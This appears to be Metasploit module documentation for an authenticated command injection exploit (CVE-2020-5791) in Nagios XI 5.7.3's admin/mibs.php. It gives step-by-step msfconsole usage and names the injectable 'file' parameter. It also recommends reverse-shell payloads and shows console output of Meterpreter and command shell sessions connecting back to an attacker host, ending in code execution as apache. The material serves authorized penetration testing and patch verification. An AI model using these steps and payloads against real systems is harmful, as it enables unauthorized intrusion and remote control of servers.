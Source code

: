 ## Vulnerable Application
This module exploits an OS command injection vulnerability (CVE-2020-5791) in `admin/mibs.php` that enables
an authenticated user with admin privileges to achieve remote code execution as the `apache` user.

The module's `check` method takes advantage of the `Msf::Exploit::Remote::HTTP::NagiosXi` mixin in order to authenticate to the target and
obtain the Nagios XI version number, which is then used to check if the target is version 5.7.3 and therefore vulnerable.

Next, the module executes the payload via an HTTP GET request to `admin/mibs.php`.
For this request, the value of the GET parameter `file` is set to the payload.
The module supports `linux/x64` and `linux/x86` payloads (target 0) as well as `cmd/unix` payloads (target 1),
However, the only reliable `cmd/unix` payloads against a typical Nagios XI host (CentOS 7 minimal) seem to be
`cmd/unix/reverse_perl_ssl` and `cmd/unix/reverse_openssl`.

Valid credentials for a Nagios XI admin user are required.
This module has been successfully tested against Nagios XI 5.7.3 running on CentOS 7.

Vulnerable software for testing is vavailable [here](https://assets.nagios.com/downloads/nagiosxi/versions.php).
Detailed installation instructions are available
[here](https://assets.nagios.com/downloads/nagiosxi/docs/Installing-Nagios-XI-Manually-on-Linux.pdf)
and an official video tutorial is available [here](https://www.youtube.com/watch?v=fBWA6t6dJ4I).

## Verification Steps
1. Start msfconsole
2. Do: `use exploit/linux/http/nagios_xi_mibs_authenticated_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set USERNAME [username for the Nagios XI account]`
5. Do: `set PASSWORD [password for the Nagios XI account]`
6. Do: `set target [target]`
7. Do: `set payload [payload]`
8. Do: `set LHOST [IP]`
9. Do: `exploit`

## Options
### PASSWORD
The password for the Nagios XI account to authenticate with.
### TARGETURI
The base path to Nagios XI. The default value is `/nagiosxi/`.
### USERNAME
The username for the Nagios XI account to authenticate with. The default value is `nagiosadmin`.

## Targets
```
Id  Name
--  ----
0   Linux
1   CMD
```

## Scenarios
### Nagios XI 5.7.3 running on CentOS 7 - Linux target
```
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > show options 

Module options (exploit/linux/http/nagios_xi_mibs_authenticated_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   nagiosadmin      yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.1.14     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /nagiosxi/       yes       The base path to the NagiosXi application
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   nagiosadmin      yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux


msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.12:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.7.3
[+] The target appears to be vulnerable.
[*] Sending stage (976712 bytes) to 192.168.1.14
[*] Command Stager progress - 100.00% done (773/773 bytes)
[*] Meterpreter session 1 opened (192.168.1.12:4444 -> 192.168.1.14:41960) at 2021-02-01 09:43:38 -0500

meterpreter > getuid
Server username: apache @ localhost.localdomain (uid=48, gid=48, euid=48, egid=48)
```
### Nagios XI 5.7.3 running on CentOS 7 - CMD target
```
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > run

[*] Started reverse SSL handler on 192.168.1.12:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.7.3
[+] The target appears to be vulnerable.
[*] Executing the payload
[*] Command shell session 2 opened (192.168.1.12:4444 -> 192.168.1.14:41962) at 2021-02-01 09:43:45 -0500

id
uid=48(apache) gid=48(apache) groups=48(apache),1000(nagios),1001(nagcmd)
```
